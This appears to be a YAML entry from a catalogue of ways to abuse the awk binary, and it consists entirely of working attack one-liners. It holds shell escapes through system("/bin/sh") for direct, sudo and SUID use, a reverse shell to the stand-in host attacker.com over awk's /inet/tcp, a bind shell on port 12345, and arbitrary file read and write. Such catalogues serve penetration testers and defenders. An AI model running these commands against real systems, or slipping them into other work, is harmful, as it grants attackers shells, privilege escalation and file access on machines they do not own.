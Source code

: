 ```yaml
---
functions:
  execute-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh")}'
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
---
```

